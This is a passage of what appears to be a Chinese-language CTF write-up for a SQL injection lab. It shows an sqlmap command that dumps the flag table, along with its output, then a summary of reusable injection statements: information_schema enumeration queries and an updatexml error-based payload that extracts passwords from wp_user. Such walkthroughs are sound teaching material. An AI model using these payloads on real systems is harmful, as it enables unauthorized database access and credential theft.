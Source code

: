 ok，继续脱裤拿flag:
\begin{lstlisting}
python sqlmap.py -r ./post.txt -p name  --dump -C "flag" -T "fl4g" -D "note"
结果:
Database: note
Table: fl4g
[1 entry]
+----------------------------+
| flag                       |
+----------------------------+
| n1book{login_sqli_is_nice} |
+----------------------------+
\end{lstlisting}

flag到手。

\subsection{小结}
SQL是比较复杂的注入，首先要判断注入类型、注入点，然后才能开展注入。至于怎么判断类型、怎么从回显报错信息等得到更多信息，都是经验之谈，需要多做题积累。暴力的可以直接用sqlmap，不过比较慢，等起来很烦，但是总时间应该比手动注入要短。

\begin{itemize}
    \item 符号小结：单引号\%27，双引号\%22,空格\%20,丼号\%23。
    \item UNION查询列数需要和之前语句一致。
\end{itemize}

重要语句：
\begin{lstlisting}
表名列名：
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name ='NAME'
报错注入:
updatexml(1,concat(0x7e,(select pwd from wp_user)),1)
\end{lstlisting}